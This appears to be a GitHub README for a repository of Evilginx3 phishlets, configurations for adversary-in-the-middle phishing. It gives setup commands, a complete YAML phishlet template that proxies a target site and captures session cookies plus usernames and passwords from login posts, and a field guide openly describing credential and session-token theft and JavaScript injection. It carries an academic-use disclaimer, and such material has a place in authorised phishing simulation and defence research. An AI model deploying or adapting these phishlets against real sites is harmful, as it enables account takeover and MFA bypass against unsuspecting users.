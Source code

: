 This repository is dedicated to updated versions of Evilginx phishlets, in tune with the latest Evilginx3. 

## Key Updates and Features


Experience enhanced TLS certificate management and automated retrieval of LetsEncrypt TLS certificates thanks to the efficient certmagic library. We've extended session token extraction, which can now be obtained from HTTP headers and response bodies, not just cookies. 

Phishing pages can now be beautifully displayed within iframes, greatly enhancing user interactivity. Configurations have become straightforward with the transition to JSON format from YAML. Moreover, you can now create specialized child phishlets from templates, making it easier to target websites with customized hostnames.

With the upgrades to Evilginx 3.0 and 3.2 - Various feature improvements have been provided. Notably, token capture has been extended from cookies to HTTP headers and the response body (which is pretty insane). This has opened up new possibilities for phishing pages - allowing to be embedded within iframes.

## Using Evilginx3 Phishlets

Follow this guide to simulate a phishing attack scenario utilizing a custom phishlet for Rencora:

- Make sure the Evilginx3 is correctly set up on your machine
- `~/.evilginx/phishlets/` directory
- initiate the Evilginx3 framework
- `phishlets load rencora`
- `phishlets enable rencora`
- `lures create rencora`

## Phishlet Configuration Template

```yaml
name: 'Rencora Security'
author: 'Rencora'
min_ver: '3.2.0'

params:
  - name: 'domain'
    required: true
    description: 'Root domain to phish'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is a demo example of a phishlet for 3.0 for my company Rencora

```
**Explanation of Phishlet Parameters:**

- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `params:` You list the required parameters that will be used in the phishlet. These include the `name`, whether it is `required` and a `description` of what the parameter is used for.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

##

Learn More: 

For more in-depth knowledge about using Evilginx, consider exploring the courses by **BreakDev** and **SimplerHacking**. They offer a much more thorough understanding of Evilginx and modern Man-in-the-Middle attacks. 

- [**BreakDev Evilginx Mastery Course**](https://www.breakdev.org)
- [**SimplerHacking Evil Phishing Pro Course**](https://www.simplerhacking.com)

  ##

  _**Disclaimer: This content is strictly for academic and ethical purposes. Unauthorized, illegal, or unethical usage is not endorsed. The author is not responsible for any misuse or damage.**_


